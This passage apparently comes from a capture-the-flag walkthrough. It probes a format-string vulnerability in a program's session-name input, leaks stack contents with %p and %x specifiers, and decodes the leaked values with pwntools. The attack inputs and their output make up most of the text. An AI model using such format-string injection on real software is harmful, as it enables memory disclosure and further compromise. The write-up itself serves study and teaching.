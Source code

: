 ```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: thebarbershopper 
--------------------------------------------------------------
SESSION: thebarbershopper

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Interesting, can we replicate the string format vulnerability of the access code with the session name?

```
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %p.%p.%p.%p.%p.
--------------------------------------------------------------
SESSION: 0xbfcf89cc.0x104.0x252e7025.0x70252e70.0x2e70252e.

  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

Why yes, yes we can. Let's dump a good portion of the stack and see what we have. We'll start by sending 70 `%x.`. Note, we add the period at the end only to allow easier splitting of our resulting string. This allows for easier correlation between the individual format strings and their output.

```
ENTER COMMAND: SELECTED: 3
ENTER NEW SESSION NAME: --------------------------------------------------------------
SESSION: bf9a747c.104.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.ff0a2e78.b77a3c20.bf9a75cc.0.b77a3000.b77a3ac0.b77a4898.b75f7940.b76690b5.b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
\xff <z\xb7�u\x9a\xbf
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------
```

We are looking at a lot of repeating values here. 

```
>>> from pwn import *
>>> unhex('252e7825')[::-1]
'%x.%'
```

Looks like those repeating characters are our format string buffer. There is one segment in this format string that is interesting:

```
b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
>>> for item in 'b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.'.split('.'):
        unhex(item)

'\xb7z:\xc0'
'Y'
'N'
'Y'
'\xb7z8\xa0'
'\xb7z0\x00'
'\xb7z:\xc0'
```
